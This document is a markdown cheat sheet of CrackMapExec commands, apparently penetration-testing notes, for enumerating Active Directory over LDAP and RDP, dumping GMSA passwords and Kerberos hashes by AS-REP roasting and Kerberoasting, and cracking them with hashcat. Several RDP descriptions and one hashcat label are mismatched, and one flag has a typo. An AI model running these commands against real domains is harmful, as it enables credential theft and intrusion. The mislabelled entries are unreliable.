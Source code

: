 
## LDAP Enumeration

| **Command**| **Description**|
|-|-|
| `cme ldap <target> -u <u> -p <p> --users` | Enumerate enabled domain users. |
| `cme ldap <target> -u <u> -p <p> --groups` | Enumerate domain groups. |
| `cme ldap <target> -u <u> -p <p> --password-not-required` | Get the list of users with flag PASSWD_NOTREQD. |
| `cme ldap <target> -u <u> -p <p> --trusted-for-delegation` | Get the list of users and computers with flag TRUSTED_FOR_DELEGATION. |
| `cme ldap <target> -u <u> -p <p> ---admin-count` | Get objets that had the value adminCount=1. |
| `cme ldap <target> -u <u> -p <p> --get-sid` | Get domain sid. |
| `cme ldap <target> -u <u> -p <p> --gmsa` | Enumerate GMSA passwords. |

---

## RDP Enumeration

| **Command**| **Description**|
|-|-|
| `cme rdp <target> -u <u> -p <p> --nla-screenshot` | If NLA is disabled it will allow you to take a screenshot of the login prompt. |
| `cme rdp <target> -u <u> -p <p> --screenshot` | Enumerate active sessions on the target. |
| `cme rdp <target> -u <u> -p <p> --screentime <SCREENTIME>` | Enumerate permissions on all shares of the target. |
| `cme rdp <target> -u <u> -p <p> --res <RESOLUTION>` | Enumerate active sessions on the target. |

---

## Finding Accounts 

| **Command**| **Description**|
|-|-|
| `cme ldap <target_fqdn> -u <u> -p <p> --asreproast asreproast.out` | Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required. | 
| `cme ldap <target_fqdn> -u <u> -p <p> --kerberoasting kerberoasting.out` | Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique. |
| `hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt --force` | Module for Cracking ASREPRoast. | 
| `hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt --force` | Module for Cracking ASREPRoast. | 

---
